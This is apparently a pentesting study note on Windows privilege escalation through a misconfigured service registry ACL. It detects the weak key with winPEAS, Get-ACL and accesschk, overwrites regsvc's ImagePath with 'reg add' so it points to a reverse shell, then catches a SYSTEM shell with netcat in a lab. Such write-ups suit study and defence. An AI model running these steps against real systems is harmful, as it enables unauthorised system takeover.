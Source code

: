 
# Weak Registry Permissions
The Windows [registry](../../../../computers/windows/registry.md) stores entries *for each service*. Registry entries *have [ACLs](../../../../computers/windows/active-directory/ACLs.md)* and if the ACL is misconfigured, it *may be possible to modify a service's configuration* (even if we can't modify the service directly).
## Check for Misconfigurations
### winPEAS
We can check for misconfigurations service misconfigurations using [winPEAS](../../../../cybersecurity/TTPs/actions-on-objective/tools/winPEAS.md) `servicesinfo` flag:
```powershell
PS C:\Users\admin> .\winPEASany.exe quiet servicesinfo
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...
  WinPEAS vBETA VERSION, Please if you find any issue let me know in https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues by carlospolop

...

  [+] Interesting Services -non Microsoft-(T1007)
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles, AllAccess
    File Permissions: Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files\DACL Service (Administrators [AllAccess])

    HKLM\system\currentcontrolset\services\RasAuto (Administrators [GenericAll TakeOwnership])
    HKLM\system\currentcontrolset\services\Rasl2tp (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RasMan (Administrators [GenericAll TakeOwnership])
    HKLM\system\currentcontrolset\services\RasPppoe (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RasSstp (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\rdbss (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDMANDK (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\rdpbus (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDPDR (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDPNP (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDPUDD (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RdpVideoMiniport (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\rdyboost (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\ReFS (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\ReFSv1 (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\regsvc (Interactive [TakeOwnership], Administrators [TakeOwnership])
```
At the bottom of the output, you can see that the `regsvc` service (the registry) has a misconfiguration. We can double check it with `Get-ACL`
#### Verify with `Get-ACL`
To check the ACLs of the `regsvc` service, run `Get-ACL` (remember to add the `:` in the path):
```powershell
PS C:\Users\admin> Get-ACL HKLM:\system\currentcontrolset\services\regsvc | Format-List

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
```
### Verify with `accesschk.exe`
[AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) is a SysInternals tool. We can use it to verify the misconfiguration in `regsvc` by giving it the registry key path:
```powershell
PS C:\Users\admin> ./accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
HKLM\System\CurrentControlSet\Services\regsvc\Security
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
```
## Privilege Escalation
With the above misconfigured registry key, we can gain [privesc](../../../../cybersecurity/TTPs/actions-on-objective/privesc/README.md) by *overwriting the `regsvc`'s `ImagePath` value* to point directly at our own [reverse shell](../../../../cybersecurity/TTPs/exploitation/rev-shell.md) executable. 
### `reg add`
We can do this using the `reg` command with the `add` flag:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\admin\reverse.exe /f
```
Make sure you use *the full path* for `ImagePath`. The idea here is we are replacing `ImagePath` with the path to our reverse shell executable.
### Reverse Shell
Start a listener on your attack box:
```bash
nc -lvp 44444
```
Once we've done that, we have can start the `regsvc` service which will invoke our revshell which `ImagePath` is pointing to. We can start the service with the `net start` command sequence:
```powershell
net start regsvc
```
Over on our listener, we should see our revshell connection:
```bash
┌─[25-07-24 18:32:55]:(root@10.0.2.15)-[~/tibs]
└─# nc -lvp 44444
listening on [any] 44444 ...
10.0.69.5: inverse host lookup failed: Unknown host
connect to [10.0.69.4] from (UNKNOWN) [10.0.69.5] 53964
Microsoft Windows [Version 10.0.19045.3803]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>tiddies
tiddies
'tiddies' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>whoami
whoami
nt authority\system
```

> [!Resources]
> - [AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) 